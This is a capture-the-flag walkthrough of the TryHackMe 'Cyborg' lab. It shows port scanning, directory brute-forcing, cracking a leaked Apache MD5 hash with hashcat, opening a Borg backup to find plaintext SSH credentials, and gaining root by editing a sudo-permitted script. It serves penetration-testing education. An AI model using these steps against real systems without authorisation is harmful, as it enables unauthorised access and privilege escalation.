



#  [Cyborg](https://tryhackme.com/room/cyborgt8)

## Getting access

To start, an `nmap` scan

```
# Nmap 7.91 scan initiated Thu Feb 11 14:34:52 2021 as: nmap -vvv -p 22,80 -sCV -oA nmap/init 10.10.173.62
Nmap scan report for box.ip (10.10.173.62)
Host is up, received syn-ack (0.27s latency).
Scanned at 2021-02-11 14:34:53 +07 for 18s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCtLmojJ45opVBHg89gyhjnTTwgEf8lVKKbUfVwmfqYP9gU3fWZD05rB/4p/qSoPbsGWvDUlSTUYMDcxNqaADH/nk58URDIiFMEM6dTiMa0grcKC5u4NRxOCtZGHTrZfiYLQKQkBsbmjbb5qpcuhYo/tzhVXsrr592Uph4iiUx8zhgfYhqgtehMG+UhzQRjnOBQ6GZmI4NyLQtHq7jSeu7ykqS9KEdkgwbBlGnDrC7ke1I9352lBb7jlsL/amXt2uiRrBgsmz2AuF+ylGha97t6JkueMYHih4Pgn4X0WnwrcUOrY7q9bxB1jQx6laHrExPbz+7/Na9huvDkLFkr5Soh
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBB5OB3VYSlOPJbOwXHV/je/alwaaJ8qljr3iLnKKGkwC4+PtH7IhMCAC3vim719GDimVEEGdQPbxUF6eH2QZb20=
|   256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlr5id6IfMeWb2ZC+LelPmOMm9S8ugHG2TtZ5HpFuZQ
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Feb 11 14:35:11 2021 -- 1 IP address (1 host up) scanned in 19.28 seconds
```

The application on port 80 is just the default Apache page, so let's gobuster

```sh
$ gobuster dir -u http://box.ip/etc/ -w path/to/wordlist -x html,php
/index.html (Status: 200)
/admin (Status: 301)
/etc (Status: 301)
```

The page at `/admin` doesn't have anything interesting (at least not at `/admin/index.html`), so let's `gobuster` at `/admin/`

```sh
$ gobuster dir -u http://box.ip/admin/ -w path/to/wordlist -x html,php
/index.html (Status: 200)
/admin.html (Status: 200)
```

We have at `/admin/admin.html` the admin shoutbox ...



... which has some interesting mentions of a badly configured squid proxy, as well as a backup named "music_archive" to look out for. Additionally, there's the file `archive.tar` to be downloaded.

Going back to our `gobuster` results, `/etc` has directory listing and `/etc/squid` has a couple of interesting files




`passwd` has the credential `music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.` and `squid.conf` holds the configuration for a squid proxy.

Here, `$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.` is an MD5 hash

```sh
$ hashid '$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.'
Analyzing '$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.'
[+] MD5(APR)
[+] Apache MD5
```

... which we can crack with something like `hashcat`

```sh
hashcat -m 1600 hash_file path/to/rockyou
```

This gives us the password `squidward`.

Extracting `archive.tar`, we get:

```sh
$ tree archive/
archive/
└── home
    └── field
        └── dev
            └── final_archive
                ├── config
                ├── data
                │   └── 0
                │       ├── 1
                │       ├── 3
                │       ├── 4
                │       └── 5
                ├── hints.5
                ├── index.5
                ├── integrity.5
                ├── nonce
                └── README

6 directories, 10 files
```

The file `archive/home/field/dev/final_archive/README` tells us this is a [Borg backup](https://borgbackup.readthedocs.io/), so I installed `borg` (`sudo pacman -S borg` on Arch Linux).

Trying to list the backup contents prompts us for a passphrase, for which we can use the previously found password `squidward`.

```sh
$ borg list archive/home/field/dev/final_archive/
Enter passphrase for key /home/j/ctf/thm/cyborgt8/archive/home/field/dev/final_archive:
music_archive                        Tue, 2020-12-29 21:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
```

... we see the `music_archive` previously mentioned in the admin shout page, so we `extract` it

```sh
$ borg extract archive/home/field/dev/final_archive/::music_archive
Enter passphrase for key /home/j/ctf/thm/cyborgt8/archive/home/field/dev/final_archive:
```

This gives us the directory `/home` and credentials in `note.txt`

```sh
$ tree home/
home/
└── alex
    ├── Desktop
    │   └── secret.txt
    ├── Documents
    │   └── note.txt
    ├── Downloads
    ├── Music
    ├── Pictures
    ├── Public
    ├── Templates
    └── Videos

9 directories, 2 files

$ cat home/alex/Documents/note.txt
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

... and with that we can get an SSH shell on the system.

## Privilege Escalation

A `sudo -l` reveals a script we can run without a password

```sh
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh

alex@ubuntu:~$ ls -l /etc/mp3backups/backup.sh
-r-xr-xr-- 1 alex alex 1083 Dec 30 01:48 /etc/mp3backups/backup.sh*
```

so we add write permission and add a `/bin/bash` to it

```sh
alex@ubuntu:~$ chmod u+w /etc/mp3backups/backup.sh
alex@ubuntu:~$ vi /etc/mp3backups/backup.sh
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh
root@ubuntu:~#
```

... and we've got `root`!
